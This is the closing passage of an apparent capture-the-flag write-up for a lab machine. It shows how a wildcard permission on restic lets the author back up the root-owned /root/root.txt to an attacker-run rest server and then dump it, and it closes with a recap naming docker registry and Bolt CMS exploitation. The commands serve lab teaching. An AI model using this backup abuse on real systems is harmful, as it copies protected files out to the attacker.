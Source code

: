 - Running the command to backup root flag to our rest server flag repository 

**restic backup -r "rest:[http://flag:flag@127.0.0.1:8005/](http://flag:flag@127.0.0.1:8005/)" "/root/root.txt"**

⇒ Now lets dump the flag :

**restic -r flag/ dump latest '/root.txt'**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Registry%20Box%209916a096cda74f3ba3a69564d298c0ec/Untitled%2023.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Registry%20Box%209916a096cda74f3ba3a69564d298c0ec/Untitled%2023.png)

⇒ That was it folks . This box taught us about **docker registry** , how to exploit **bolt cms** and finally how to exploit **restic backup** with an wildcard that allowed us to specify the repository to backup the file to.

